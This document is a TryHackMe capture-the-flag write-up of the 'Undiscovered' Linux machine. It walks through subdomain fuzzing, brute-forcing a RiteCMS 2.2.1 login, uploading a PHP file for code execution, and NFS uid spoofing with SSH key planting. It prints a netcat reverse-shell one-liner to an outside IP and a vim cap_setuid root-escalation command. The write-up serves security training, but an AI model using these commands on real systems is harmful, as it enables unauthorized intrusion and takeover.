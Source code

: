 # Undiscovered TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.jpeg)

## Scanning
We run **nmap** on all ports, with scripts and versions.

![](2.png)

## Enumeration
We access the web service, find a website with what looks like a *"hint"*.

![](3.png)

We launch the **wfuzz** tool to list possible subdomains enabled on *vhost*.

We see that there is *only one with different number of lines*.

![](4.png)

We access the new web resource and find **RiteCMS** version *2.2.1* deployed.

![](5.png)

We check again **wfuzz**, we see that it has identified another subdomain.

![](6.png)

We list another subdomain with the same CMS, unlike the previous one, in this one we have visibility to the authentication form.

![](7.png)

We brute force the authentication form with **Hydra**, we get the password in plain text.

![](8.png)

## Exploitation

We searched for exploits for this version of the CMS, we found several and some scripts that automates, but I preferred to do it "by hand".

[RiteCMS 2.2.1 - Authenticated Remote Code Execution
](https://www.exploit-db.com/exploits/48636)

We create a malicious file called *"m3.php"*.

![](9.png)

Enter the credentials obtained and upload the file *m3.php*.

![](10.png)

We access the file and check that we can execute remote code.

![](11.png)

#### Reverse shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We encode the payload and execute it from burp.

![](12.png)

#### Remote access to the machine:

![](13.png)

Once inside, we launch the dirsearch tool and we see that we could mount and write in the folder of the user "*william*".

![](14.png)

We tried to mount it, but we do not have permission to view its contents.

![](16.png)

But it is easy to take advantage of this vulnerability, just create a local user with the same *uid (3003)* and now you can access your folder and read the *user.txt flag*.

![](17.png)

We checked the folder and found two interesting files "*admin.sh*" and "*script*". I try to delete the file and it is possible to replace it, thinking that maybe they can be combined or that there is some crontab running as another user, I try to add a line to get a reverse shell (but without success :().

![](18.png)

We check with **strings** the content of the "*script*" binary and we see that it executes a "**cat**" inside the user's home folder.

![](19.png)

Taking advantage of the fact that we have write permissions in the nfs, we insert our public key in the "*authorized_keys*" file of the user "*william*" and we access by **SSH**.

![](20.png)

We make some tests with the file and we see that we can indeed impersonate the user "*leonard*" to be able to read any file in his folder, so we try to read his private key and we see that we have been lucky.

![](21.png)

We access by **SSH** and we see that we have access as "*leonard*".

![](22.png)

## Privilege Escalation
We read the file "*.viminfo*", we see a series of commands that already sounds us of the use of privilege escalation by means of **vim**, this already makes us suspect which is the way to the privilege escalation.

![](23.png)

As we can't run sudo because we don't know the user's password, we see if we can access the **vim** binary through its capabilities, we see that we have "*cap_setuid+ep*", so we can abuse it and become root.

![](24.png)

#### Command execute
```bash
/usr/bin/vim.basic  -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
We run the command, become root and read the flag from root.txt

![](25.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
